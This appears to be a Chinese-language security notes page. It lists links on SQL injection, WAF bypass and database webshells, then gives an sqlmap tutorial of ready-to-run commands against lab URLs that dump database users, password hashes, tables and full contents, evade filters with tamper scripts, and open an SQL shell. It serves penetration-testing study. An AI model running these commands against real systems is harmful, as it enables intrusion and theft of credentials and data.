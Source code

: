 #### Tricks

-   [sqlmap time based inject 分析](http://blog.wils0n.cn/archives/178/)

-   [SQLInjectionWiki](https://github.com/NetSPI/SQLInjectionWiki)

-   [常见数据库写入 Webshell 汇总](https://mp.weixin.qq.com/s/BucCNyCmyATdRENZp0AF2A)

-   [MSSQL 数据库攻击实战指北](https://mp.weixin.qq.com/s/uENvpPan7aVd7MbSoAT9Dg)

#### Bypass

-   [SQL 注入 ByPass 的一些小技巧](https://mp.weixin.qq.com/s/fSBZPkO0-HNYfLgmYWJKCg)

-   [Waf Bypass 之道](https://xz.aliyun.com/t/368)

-   [MySQL Bypass Wiki](https://github.com/aleenzz/MYSQL_SQL_BYPASS_WIKI)

#### NoSQL

-   [NoSQL 注入的分析和缓解](http://www.yunweipai.com/archives/14084.html)
-   [NoSQL 注入](https://mp.weixin.qq.com/s/tG874LNTIdiN7MPtO-hovA)



# sqlmap使用详解

sqlmap是一个开源的渗透测试工具，它可以自动化检测和利用SQL注入缺陷以及接管数据库服务器的过程。它有一个强大的检测引擎，许多适合于终极渗透测试的小众特性和广泛的开关，从数据库指纹，从数据库获取数据到访问底层文件系统和通过带外连接在操作系统上执行命令。

## 1.判断注入点

```
python sqlmap.py -u http://192.168.37.148/sql/Less-7/index.php?id=1
```

## 2.重要的sqlmap使用语句

```shell
sqlmap -r http.txt  #http.txt是我们抓取的http的请求包
sqlmap -r http.txt -p username  #指定参数，当有多个参数而你又知道username参数存在SQL漏洞，你就可以使用-p指定参数进行探测
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   #探测该url是否存在漏洞
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   --cookie="抓取的cookie"   #当该网站需要登录时，探测该url是否存在漏洞
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --data="uname=admin&passwd=admin&submit=Submit"  #抓取其post提交的数据填入
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --users      #查看数据库的所有用户
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --passwords  #查看数据库用户名的密码
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-user  #查看数据库当前的用户
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --is-dba    #判断当前用户是否有管理员权限
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --roles     #列出数据库所有管理员角色，仅适用于oracle数据库的时候
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --dbs        #爆出所有的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --tables     #爆出所有的数据表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --columns    #爆出数据库中所有的列
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --current-db #查看当前的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --tables #爆出数据库security中的所有的表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --columns #爆出security数据库中users表中的所有的列
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump  #爆出数据库security中的users表中的username列中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --dump-all   #爆出数据库security中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dump-all  #爆出该数据库中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --tamper=space2comment.py  #指定脚本进行过滤，用/**/代替空格
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --level=5 --risk=3 #探测等级5，平台危险等级3，都是最高级别。当level=2时，会测试cookie注入。当level=3时，会测试user-agent/referer注入。
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --sql-shell  #执行指定的sql语句
```